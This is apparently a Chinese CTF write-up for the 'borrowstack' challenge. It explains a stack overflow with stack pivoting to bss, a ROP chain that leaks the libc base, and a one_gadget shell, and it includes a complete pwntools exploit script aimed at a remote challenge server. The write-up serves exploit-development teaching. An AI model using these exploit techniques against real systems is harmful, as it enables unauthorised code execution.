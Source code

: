 第一个read可以溢出，第二个read是往bss段上写入内容，通过第一个read溢出0x10字节，只能够覆盖到ret，所以利用栈迁移，让它跳转去bank处，往bank里写入我们的rop链获取shell

泄露libc版本后下载使用one-gadget来打，至于用哪一个，不嫌麻烦就调试一下就行，不然就一个个试一试。

当然因为bss段有离got表很近，所以我们迁移栈过来后会生成新的栈帧，可能会破坏低地址的东西，解决方法之一是抬高栈地址

  

下面我们可以通过one_gadget查看execve的地址
![[Pasted image 20241003115756.png]]
#### exp:

```Python
from pwn import*

file_name = './borrowstack'#io = process(file_name)
libc = ELF('./libc6_2.23-0ubuntu10_amd64.so')
io = remote('node5.buuoj.cn',26464)
elf = ELF(file_name)
context(arch='amd64',os='linux',log_level='debug')

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi = 0x400703
leave_ret = 0x400699
bss_addr = 0x601080
ret_addr=0x4004c9
main_addr = 0x400626

payload = b'a'*0x60 + p64(bss_addr) + p64(leave_ret)
io.recvuntil('want\n')
io.send(payload)
payload=p64(ret_addr)*20
payload+=p64(pop_rdi)+p64(puts_got)+p64(puts_plt)
payload+=p64(main_addr)
io.recvuntil('now!\n')
io.send(payload)
puts_addr=u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
libc_base=puts_addr-libc.symbols['puts']
print("put_addr :",hex(puts_addr))
one_gadget=libc_base+0x4526a

payload=b'a'*(0x60+8)+p64(one_gadget)
io.send(payload)

io.interactive()
```



### 文章

![[Pasted image 20241003115842.png]]
